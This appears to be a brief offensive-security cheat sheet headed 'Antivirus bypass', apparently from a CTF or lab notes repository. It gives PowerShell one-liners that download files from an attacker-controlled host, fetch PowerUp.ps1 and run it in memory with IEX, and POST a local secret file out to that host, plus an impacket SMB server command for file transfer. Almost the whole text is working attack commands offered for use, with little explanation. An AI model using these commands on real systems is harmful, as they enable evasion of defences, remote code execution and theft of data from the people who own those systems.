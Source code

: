 # Antivirus bypass

## powershell
- Disable CLM : 
- Use it to transfert files

```
powershell "Invoke-WebRequest 'http://10.10.14.26/wmic_info.bat' -OutFile c:\Users\Public\wmic_info.bat" 2>&1
```

Load script on the fly : 

```
IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.26/PowerSploit/Privesc/PowerUp.ps1'); Invoke-AllChecks
```

Data exfiltration :

```
$body = Get-Content 'c:\secret.txt'"'"';Invoke-WebRequest http://10.10.14.26:443 -Body $body -Method 'POST'
```

## SMB

Use smb with auth when anon smb disallowed :

```
impacket-smbserver -username user -password '' -smb2support kali .
```


